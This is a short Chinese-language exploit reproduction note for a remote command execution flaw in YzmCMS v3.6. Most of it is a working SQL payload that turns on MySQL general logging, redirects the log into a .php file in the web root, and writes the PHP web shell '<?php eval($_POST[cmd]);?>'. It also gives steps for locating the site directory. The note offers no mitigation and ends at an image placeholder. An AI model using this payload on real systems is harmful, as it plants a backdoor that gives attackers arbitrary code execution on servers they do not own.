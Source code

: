 YzmCMS v3.6 远程命令执行
========================

一、漏洞简介
------------

二、漏洞影响
------------

YzmCMS v3.6

三、复现过程
------------

Payload：

    show variables like '%general%';   #查看配置
    set global general_log = on;        #开启general log模式
    set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); 
    select '<?php eval($_POST[cmd]);?>';   #写入shell

##### 1、执行sql语句，查看mysql日志配置情况

![](./.resource/YzmCMSv3.6远程命令执行/media/rId25.png)

#### 2、根据日志文件位置或者默认站点路径来推测站点目录，可用load\_file()函数来测试，确认站点目录位置。或者通过phpinfo()等信息收集获取站点目录。

![](./.resource/YzmCMSv3.6远程命令执行/media/rId27.png)

#### 3、分别执行下列sql语句，将脚本代码写入文件：

    set global general_log = on;         

    set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); select '<?php eval($_POST[cmd]);?>';

![](./.resource/YzmCMSv3.6远程命令执行/media/rId29.png)

#### 4、提交参数，执行脚本代码：

image
